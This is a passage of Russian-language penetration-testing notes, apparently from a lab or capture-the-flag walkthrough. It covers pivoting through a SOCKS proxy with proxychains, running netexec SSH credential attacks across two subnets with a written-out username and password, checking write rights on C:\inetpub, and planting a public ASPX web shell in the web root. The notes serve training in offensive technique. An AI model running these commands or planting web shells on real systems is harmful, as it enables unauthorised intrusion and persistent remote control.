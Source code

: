 # Используем сокс для доступа к тачкам

Далее попробуем пробраться на хосты, которые ранее не были нам доступны.

![[Pasted image 20241119075546.png]]

```
proxychains netexec ssh 10.113.0.0/24 -u "tech" -p 'ZxCvBnM!23' -t 10 | fgrep "[+]"
```

Я поставил потоков 10, чтобы не убить сокс. Насколько я знаю по дефолту netexec использует 100 потоков. Также я использую fgrep, т.к это банально удобно, не нужно экранировать специальные символы. Как видим нам удалось достучаться до хостов, которые были в сетке 10.113.0.0/24, а ранее у нас не было к ним доступа. Также попробуем посканить второй сетевой интерфейс.

![[Pasted image 20241119080221.png]]
![[Pasted image 20241119080421.png]]

```
proxychains netexec ssh 112.113.0.0/24 -u "tech" -p 'ZxCvBnM!23' -t 10 | fgrep "[+]"
```

# Заливаем web шелл

![[Pasted image 20241119162921.png]]

На хосте, который оканчивается на 20 я заметил в корне диска C папку inetpub. Это сразу наталкивает на мысль залить туда веб шелл. Но сначала нужно проверить есть ли у нас необходимые права на это.

![[Pasted image 20241119163500.png]]

Пользователь "tech" имеет право на создание файлов. 

```
powershell "(Get-Acl C:\inetpub).Access"
```

Проверял вот так. До этого естественно проверил в какие группы входит пользователь tech с помощью whoami /all

Вот сюда грузим наш шелл. 

```
C:\inetpub\wwwroot\shell.aspx
```

Я буду использовать [shell.aspx](https://raw.githubusercontent.com/xl7dev/WebShell/master/Aspx/ASPX%20Shell.aspx)

![[Pasted image 20241119164644.png]]

Отлично мы залили shell в корневую директорию. Нужно теперь пробросить порт, чтобы получить доступ к шеллу. У нас установлен ssh.
